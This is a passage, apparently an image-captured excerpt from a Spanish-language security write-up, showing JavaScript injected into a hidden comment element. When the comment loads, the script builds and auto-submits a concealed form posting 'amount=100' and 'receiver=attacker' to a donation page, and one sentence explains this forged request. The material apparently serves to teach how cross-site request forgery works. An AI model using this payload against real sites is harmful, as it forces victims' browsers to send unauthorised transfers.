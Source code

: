     var amountInput = document.createElement('input');
    amountInput.type = 'hidden';
    amountInput.name = 'amount';
    amountInput.value = '100';
    form.appendChild(amountInput);
    
    var receiverInput = document.createElement('input');
    receiverInput.type = 'hidden';
    receiverInput.name = 'receiver';
    receiverInput.value = 'attacker';
    form.appendChild(receiverInput);
    
    document.body.appendChild(form);
    form.submit();
    " style="display:none;">
    ```

    Este código crea un formulario oculto con los parámetros "amount" y "receiver", y lo envía automáticamente cuando se carga el comentario, simulando una solicitud POST a la página de donación.
